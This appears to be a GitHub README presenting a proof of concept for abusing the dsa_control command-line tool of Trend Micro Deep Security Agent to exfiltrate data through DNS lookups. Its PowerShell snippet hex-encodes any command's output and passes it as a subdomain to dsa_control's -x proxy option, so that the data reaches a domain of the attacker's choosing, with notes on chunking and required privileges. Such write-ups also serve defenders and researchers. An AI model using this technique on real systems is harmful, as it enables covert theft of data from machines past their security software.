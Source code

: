 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI utility

<img src="assets/logo.png" width=150>

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can "abuse" it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

"The [dsa_control](https://help.deepsecurity.trendmicro.com/aws/command-line-interface.html#dsa_cont) enables you to configure some of the Deep Security Agent settings and manually trigger such actions as activation, anti-malware scans, and baseline rebuilds."

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed

dsa_control path: (default)
- `C:\Program Files\Trend Micro\Deep Security Agent\`

⚠️NOTE: The entire FQDN has a max length of 255 characters, so the exfiltrated data must be sent in chunks(if necessary).

- [Trend Micro Configuration](#trend-micro-configuration)
- [POC](#poc)
- [Example](#example)

## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)


